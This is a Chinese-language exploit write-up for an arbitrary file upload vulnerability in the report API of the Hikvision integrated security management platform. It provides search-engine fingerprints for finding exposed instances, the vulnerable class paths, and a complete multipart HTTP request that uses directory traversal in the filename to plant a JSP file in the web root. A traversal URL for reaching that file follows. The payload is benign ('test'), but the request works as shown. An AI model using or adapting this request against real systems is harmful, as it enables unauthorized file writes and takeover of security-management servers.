




# Hikvision 综合安防管理平台 report 任意文件上传漏洞

## 漏洞描述

Hikvision 综合安防管理平台 report接口存在任意文件上传漏洞，攻击者通过构造特殊的请求包可以上传任意文件，获取服务器权限

## 漏洞影响

Hikvision 综合安防管理平台

## 网络测绘

```
app="Hikvision-综合安防管理平台"
```

```
web.title=="综合安防管理平台"
```

## 漏洞复现

登陆页面


```
WEB-INF/classes/com/Hikvision/svm/controller/ExternalController.class
```



```
WEB-INF/classes/com/Hikvision/svm/business/serivce/impl/ExternalBusinessServiceImpl.class
```



构造上传文件（通过 env泄漏获取绝对路径，路径一般不会修改）

```
POST /svm/api/external/report HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/Hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```



```
/portal/ui/login/..;/..;/new.jsp
```

